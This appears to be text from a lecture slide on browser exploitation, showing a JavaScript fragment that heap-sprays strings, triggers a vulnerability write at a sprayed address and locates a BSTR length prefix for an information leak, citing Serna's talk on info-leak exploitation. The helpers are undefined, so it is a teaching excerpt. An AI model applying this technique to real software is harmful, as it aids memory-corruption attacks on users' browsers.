

# 找到 BSTR 长度域前缀的地址
var strArr = heapSpray("\u0000");
var sprayedAddr = 0x14141414;

writeByVul(sprayedAddr);
for (i = 0; i < strArr.length; i++) {
    p = strArr[i].search(/[^\u0000]/);
    if (p != -1) {
        modified = i;
        leverageStr = strArr[modified];
        bstrPrefixAddr = sprayedAddr - (p)*2 - 4;
        break;
    }
}
* Fermin J. Serna, “The info leak era on software exploitation”